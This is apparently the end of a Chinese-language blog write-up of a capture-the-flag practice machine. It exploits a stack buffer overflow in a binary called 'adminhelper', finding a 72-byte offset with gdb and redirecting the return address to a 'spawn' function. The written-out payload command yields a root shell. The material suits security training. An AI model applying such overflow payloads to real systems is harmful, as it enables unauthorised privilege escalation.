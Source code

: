 提示分段故障了... 证实了存在缓冲区溢出问题... 这边需要找出堆栈溢出值...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMBOUkgqV9Q427iaSuJiahNUrgtuJb5VTqE3xUKVo5ibNQfwxBWBONmCaytnwmIIJKdg92eoNB4gnIXQ/640?wx_fmt=png)

触发段错误找到了段错误的边界为 72....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMBOUkgqV9Q427iaSuJiahNUrfG3dIWSvb4fibEtxicggRG1ZzP84FibFBiawfmGKrq7McaI2PL9ibNvQ1nw/640?wx_fmt=png)

启动 gdb 来检查程序... 发现 spawn 函数（这边可以利用 spanwn 函数进行提权）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMBOUkgqV9Q427iaSuJiahNUrQkMflicYWR24BxSs4icFo6Wauic8LXwbhX3hlDk1oYrJ7kH5B1c78giaIA/640?wx_fmt=png)

我运行了 spawn 函数... 现在我要触发堆栈溢出以重定向程序执行，来覆盖 EIP 中的返回地址...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMBOUkgqV9Q427iaSuJiahNUr1h2JYQlhnhhVEyLfDMJOt0qFZ0yLxka3Pkd8pesU4saacKr9ialL5NA/640?wx_fmt=png)

```
gdb --args ./adminhelper $(python -c "print 'A'*72+'B'*6")
```

这边发现了 42，它是 “B” 的十六进制值.... 现在需要重定向执行得想计算出内存地址...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMBOUkgqV9Q427iaSuJiahNUrAmbr0VaOEr1K1y1hroBgomYlpDy1EoM859TyNepCYuOCgUJ3cuCdSg/640?wx_fmt=png)

看到目标内存地址是 0x00005555555547d0，创建外壳需要注入了 5555555547d0，以避免在 shellcode 中有空字节.... 在 shellcode 中，字节顺序相反，因为该体系结构为低端字节序... 所以：（\xd0\x47\x55\x55\x55\x55）

很好理解...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMBOUkgqV9Q427iaSuJiahNUrfs8TGCWcxT4zQic3EOjIVicAiaQOtyo3dOG707upbwQPb9HlEOltP7Khg/640?wx_fmt=png)

```
./adminhelper $(python -c "print 'A'*72+'\xd0\x47\x55\x55\x55\x55'")
```

这边利用缓冲区溢出的栈溢出执行了外壳成功...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMBOUkgqV9Q427iaSuJiahNUrPmIg354ajlDr8BiaK1L6LOXo4PYfWHEzWB4o80OGe3O5ibU1LSBTyOAg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/1YmOavZxdtMO4H2jQmHQPjj5spkbfSVBDXp5qK3AFk28IFicOuyG8bl4JvulVPhB1R6f12L9prx42JccKBibCbNg/640?wx_fmt=png)

  

  

  

成功利用 shell 获取了 root 权限... 由于此靶机都安装了 python 等工具能直接利用在内部对二进制漏洞制作 shell，才顺利的拿到了 root 和查看到了 flag....

加油！！！！

由于我们已经成功得到 root 权限 & 找到 flag.txt，因此完成了简单靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)
